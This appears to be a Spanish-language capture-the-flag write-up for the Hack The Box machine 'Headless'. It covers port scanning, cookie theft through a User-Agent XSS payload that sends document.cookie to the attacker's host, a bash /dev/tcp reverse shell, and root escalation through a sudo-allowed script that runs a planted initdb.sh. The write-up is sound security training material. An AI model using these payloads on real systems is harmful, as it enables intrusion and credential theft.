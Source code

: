 ```yaml
---
title: "Headless"
description: "Headless"
pubDate: 2025-05-20
---
```


https://app.hackthebox.com/machines/Headless

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.11.8
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240509180013.png)

## Reconocimiento de servicios

````
nmap -sCV -p22,5000 10.10.11.8
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240509180946.png)

## Gobuster

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240509182338.png)

Hay una cookie que es is_admin que permite la entrada a /dashboard

# Fase de ataque

## Cookie Stealing

El formulario de contacto no es vulnerable a xss porque detecta la intrusion.
Si modificamos el User-Agent en BurpSuite podemos realizar un ataque xss reflected para recibir la cookie de admin.
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240509191941.png)

````
<img src=x onerror=fetch('http://10.10.14.121:1234/?c='+document.cookie);>
````

Abrimos un servidor HTTP para recibir la petición

````
python3 -m http.server -m 80
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240509191743.png)

Modificamos la Cookie en el navegador y entramos en /dashboard

## RCE

Hay un servicio web para ver que todo esta Up que es vulnerable a RCE

### Para ganar acceso al sistema (Reverse Shell)

1. Nos ponemos en escucha por el puerto 443

````
nc -nlvp 443
````

2. Mandamos la Reverse Shell con BurpSuite

````
bash -c "bash -i>%26 /dev/tcp/10.10.14.121/1111 0>%261"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240509192657.png)
\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

Ajustar proporciones

````
stty rows 44 columns 184
````

# Privilege Escalation

````
sudo -l
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240509194306.png)
Podemos observar que tenemos syscheck como root
Si miramos syscheck podemos observar que ejeucta un archivo intidb.sh

1. Creamos un archivo initidb.sh conteniendo "/bin/bash"
1. Ejecuatmos

````
/usr/bin/syscheck
````

\[+\] ==pwned!==
